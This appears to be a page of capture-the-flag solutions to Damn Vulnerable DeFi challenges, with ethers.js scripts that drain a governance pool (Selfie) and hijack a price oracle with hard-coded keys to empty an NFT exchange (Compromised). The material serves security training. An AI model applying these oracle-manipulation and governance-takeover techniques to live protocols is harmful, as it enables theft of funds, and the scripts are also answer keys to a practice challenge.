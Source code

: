 ```JS

// Go nuts :)

await RewarderExploit.exploit();
```

### [Selfie](https://www.damnvulnerabledefi.xyz/challenges/6.html)
``` JS
// Deploy & exploit

const SelfieExploitFactory = await ethers.getContractFactory('SelfieExploit', attacker);

let SelfieExploit = await SelfieExploitFactory.deploy(
	this.pool.address,
	this.governance.address,
	this.token.address
);

await SelfieExploit.exploit();

// Wait 2 days

await ethers.provider.send("evm_increaseTime", [2 * 24 * 60 * 60 + 7]);

// Reward :)

await this.governance.connect(attacker).executeAction(SelfieExploit.evilActionId());
```

### [Compromised](https://www.damnvulnerabledefi.xyz/challenges/7.html)
``` JS
const oracleMajority = [
	new ethers.Wallet(
		'0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9',
		ethers.provider),
	new ethers.Wallet(
		'0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48',
		ethers.provider)
];

// Hijack consenssus and set arbitrary price
const setNewPrice = async (newPrice) => {
	for(const source of oracleMajority)
		await this.oracle.connect(source).postPrice("DVNFT", newPrice);
}

// Get one for free :)
await setNewPrice(0);
const purchaseTx = await this.exchange.connect(attacker).buyOne({value:1337});

// Get full transaction info, extract tokenId from emitted event
const purchaseTxReceipt = await purchaseTx.wait();
const tokenId = purchaseTxReceipt.events[1].args[1];

// Approve NFT transfer to facilitate sale
await this.nftToken.connect(attacker).approve(this.exchange.address, tokenId);

// Sell at price of exchange balance
await setNewPrice(await ethers.provider.getBalance(this.exchange.address));
await this.exchange.connect(attacker).sellOne(tokenId);

```